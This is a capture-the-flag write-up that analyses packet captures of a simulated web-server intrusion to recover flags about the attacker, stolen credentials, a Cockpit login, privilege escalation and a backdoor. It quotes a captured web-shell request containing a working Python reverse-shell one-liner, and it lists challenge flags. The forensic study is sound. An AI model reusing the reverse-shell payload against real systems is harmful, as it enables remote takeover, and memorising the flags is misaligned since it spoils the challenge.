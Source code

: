 # Attack Investigation - Networks

## Challenge

This was a multi-part challenge which unlocked further stages as you completed them. For the sake of brevity I am recording them on a singular document under a singular title instead of creating unique ones for each challenge.

## Solve:

### Server & Attacker IP

Filtering for `http` traffic we can see evidence of web directory enumeration from `192.168.1.9` to `192.168.1.10`:

nw1

`KCTF{192.168.1.10_192.168.1.9} `

### The Real Admin 

Filtering for `http` traffic which doesn't include the attackers IP, we can see admin activity from `192.168.1.3`:

nw2

`KCTF{192.168.1.3}`


### The Intruder's Identity

Filtering for POST requests from the attacker's IP, can find credentials used to register an account:

nw3

`KCTF{theexploiter_exploiter@test}`

### Compromising the Admin

Same filters, can view multiple attempts to login to `admin` and find compromised credentials after final attempt:

nw4

`KCTF{theexploiter_exploiter@test}`

### Initial Reconnaisance

To explore the tools that may have been used, my teammate (`Ch1maera`) used `tshark` to enumerate `User-Agents`, and found:

`93e4r0-CVE-2014-6271`

Doing a search for "93e4r0-CVE-2014-6271" led to the GitHub repo for `nikto`, a web enumeration tool.

The `User-Agent` can be found with this command:

```
./tshark.exe -r capture1.pcapng -Y "http.user_agent" -T fields -e http.user_agent | Sort-Object | Get-Unique
```

nw5

`KCTF{nikto}`

### Stealing the Sweet

Found evidence of and XSS attack under Statistics->HTTP->Requests:

nw6

Filtering for `http` traffic that is not destined for port 80 (credit to my teammate `sealldev`) we can see HTTP packets sent from the server to the attackers IP:

nw7

`KCTF{8881_xss}`

### The Overseer

Moving on to the second packet capture, the first batch of packets show requests to `/cockpit`:

nw8

`KCTF{cockpit}`

### The Gatekeeper

To find out the port the server listens on, just check the GET request to `/cockpit/login` above.

`KCTF{9090}`

### The Server's Identity 

Viewing the WebSocket traffic we can see the `host` in the attackers communication with the server is specified as `localhost`:

nw9

KCTF`{localhost.localdomain}`

### Tareq's Secret 

To find the password, filter for `http` requests to `/cockpit/login` and view last (and successful) login attempt:

nw10

`KCTF{SecurePass}`

### The Escalation Trick

Moving on to the third and final packet capture, we can filter for `http` requests and sort by length to view commands requested as URIs:

nw11

```
 GET /uploads/678e2443a6725.php?cmd=export%20RHOST=%22192.168.1.9%22;export%20RPORT=5074;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22sh%22)%27 HTTP/1.1
```

The command appears to be establishing a reverse shell. Following the tcp stream (credit to `sealldev`) shows attacker executing commands through this shell and reveals the tool used to escalate privileges:

nw12

`KCTF{awk}`

### The Hidden Door

In the same TCP stream, we can view the commands executed by the attacker to establish a backdoor:

nw13

The attacker changes to the `root` directory, creates a hidden directory `.sys` and installs the backdoor via `wget` on port 2081.

`KCTF{/root/.sys/sys_2081}`

### Port Fiesta

In the same TCP stream, we can see the server is started on 10 different ports:

nw14

`KCTF{10}`

### The Backdoor's Whisper

Manually checking the ports from the previous question with `tcp.port == <port>`, only port 12345 has any activity:

`KCTF{12345}`

### The Unused Tool 

In the same TCP stream where we can view the attackers commands, we can see they attempted to install and run `tmux` but was unsuccessful:

nw15

nw16

`KCTF{tmux}`

### Malicious Uploads 

This challenge goes back to the first packet capture and asks for the name of the maliciously uploaded file. Since            `/blog/create` has been exploited before, can check for POST requests and find `serverfile.php`:

nw17

`KCTF{serverfile.php}`

### Shell History

Apparently a malicious shell file already existed on the system. The flag asks for the date and time, suggesting an `ls` may have been used with the `l` flag showing the date/time as well as the file name (credit to `sealldev`). Going back to the attackers commands and checking for an `ls -l` proves this theory correct:

nw18

`KCTF{php-reverse-shell.php_Jan_19}`
